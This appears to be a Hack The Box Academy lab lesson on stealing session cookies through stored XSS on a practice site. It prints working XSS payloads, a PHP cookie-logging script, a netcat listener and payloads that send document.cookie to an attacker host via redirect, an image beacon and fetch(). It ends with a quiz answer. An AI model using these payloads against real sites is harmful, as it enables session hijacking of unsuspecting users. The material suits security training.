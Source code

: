 ```yaml
---
sticker: emoji//1f512
---
```

Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. In this section, though, we will focus on exploiting Cross-Site Scripting (XSS) vulnerabilities to obtain valid session identifiers (such as session cookies).

If you want to dive deeper into Cross-Site Scripting (XSS) vulnerabilities, we suggest you study our [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) module.

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`xss.htb.net`) to access the application.

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

```ad-note
- Email: crazygorilla983
- Password: pisces
```

This is an account that we created to look at the application's functionality. It looks like we can edit the input fields to update our email, phone number, and country.

![image](https://academy.hackthebox.com/storage/modules/153/20.png)

In such cases, it is best to use payloads with event handlers like `onload` or `onerror` since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like `onmouseover`.

In one field, let us specify the following payload:

```javascript
"><img src=x onerror=prompt(document.domain)>
```

We are using `document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment. JavaScript being executed in a sandboxed environment prevents client-side attacks. It should be noted that sandbox escapes exist but are outside the scope of this module.

In the remaining two fields, let us specify the following two payloads.

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

We will need to update the profile by pressing "Save" to submit our payloads.

![image](https://academy.hackthebox.com/storage/modules/153/21.png)

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

That is indeed the case! The payload specified in the _Country_ field fired!

![image](https://academy.hackthebox.com/storage/modules/153/22.png)

Let us now check if _HTTPOnly_ is "off" using Web Developer Tools.

![image](https://academy.hackthebox.com/storage/modules/153/23.png)

_HTTPOnly_ is off!

---

## Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.

```shell-session
smoothment@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the _Country_ field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

**Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

**Simulate the victim**

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

- Email: smallfrog576
- Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside `cookieLog.txt`

![image](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!

---

## Obtaining session cookies via XSS (Netcat edition)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in the _Country_ field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Let us also instruct Netcat to listen on port 8000 as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Open a `New Private Window` and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

By the time you hold your mouse over "test," you should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/54.png)

Please note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools, as follows.

![image](https://academy.hackthebox.com/storage/modules/153/55.png)

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

Give it a try...

It is about time we jump to another session attack called Cross-Site Request Forgery (CSRF or XSRF).

# Question
---

![[Pasted image 20250219124916.png]]

Answer is:

```
yes
```
